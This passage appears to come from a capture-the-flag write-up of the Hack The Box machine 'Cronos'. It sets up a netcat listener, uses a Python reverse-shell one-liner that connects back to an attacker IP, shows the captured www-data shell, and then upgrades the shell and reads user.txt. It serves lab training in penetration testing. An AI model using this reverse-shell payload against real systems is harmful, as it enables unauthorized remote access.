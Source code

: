 Set up a listener on the attack machine.
```
nc -lvnp 4444
```

Executed the request and it didn’t send a reverse shell back.

![crn-7](https://user-images.githubusercontent.com/87711310/213381558-34218458-2c13-4f5d-a4ef-11a6d569217a.png)


So i checked if `bash` was installed on the machine.
```
which bash
```

![crn-8](https://user-images.githubusercontent.com/87711310/213381565-d3071183-0a4c-4e8d-9137-b7113ed63cd6.png)

It was installed but I wasn't sure that why it didn't work so I tried python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

DO NOT FORGET TO URL ENCODE THE PAYLOAD BEFORE SENDING IT (USE `CTRL+U` TO URL ENCODE IN BURP)

Once I sent the request, I got a low privileged reverse shell on my mahcine

![crn-9](https://user-images.githubusercontent.com/87711310/213382326-bb83c301-da1a-4324-8ab6-e1cdfd0a9c99.png)

```
──(darshan㉿kali)-[/usr/share/linux-exploit-suggester]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 36292
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I upgraded it to a better shell using the follwoing command:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

After this, I grabbed the `user.txt`

```
www-data@cronos:/$ ls
ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
www-data@cronos:/$ cd home
cd home
www-data@cronos:/home$ ls 
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls
ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
[REDACTED]

```
